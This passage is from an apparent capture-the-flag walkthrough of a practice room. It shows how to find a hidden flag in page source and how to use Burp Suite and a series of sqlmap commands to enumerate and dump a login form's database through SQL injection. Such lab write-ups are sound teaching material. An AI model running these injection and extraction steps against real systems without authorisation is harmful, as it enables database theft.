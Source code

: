 
### Easter 3

_Directory buster with common.txt might help._

1. Navigate to `http://IP/login` and view the page source code (right-click and select "View Page Source")

![SCREEN06](https://github.com/user-attachments/assets/07cd945b-c91f-43a5-82d7-2799d0ac704d)

---

### Easter 4

_time-based sqli_

1. In Burp Suite, intercept a POST request from the login form

   - Right-click and select "Save item" to save the request for sqlmap

2. Use sqlmap to identify available databases

```bash
sqlmap -r request --dbs --batch
```

![SCREEN07](https://github.com/user-attachments/assets/eb4ca958-2123-4dcd-b80d-becc06b3c6a2)

3. Once the `THM_f0und_m3` database is identified, enumerate its tables

```bash
sqlmap -r request --dbs --batch -D THM_f0und_m3 --tables
```

![SCREEN08](https://github.com/user-attachments/assets/80273ad8-0a5d-43a0-a53e-c2ea7ba2ecd3)

4. Examine the structure of the `nothing_inside` table

```bash
sqlmap -r request --dbs --batch -D THM_f0und_m3 -T nothing_inside --columns
```

![SCREEN09](https://github.com/user-attachments/assets/8280aa6e-3722-4553-b81b-3d71f5b31cf6)

5. Extract the flag from the `Easter_4` column

```bash
sqlmap -r request --dbs --batch -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
```

![SCREEN10](https://github.com/user-attachments/assets/cee5448f-2556-406f-b77d-3a300cf5248f)

---

### Easter 5

_Another sqli_
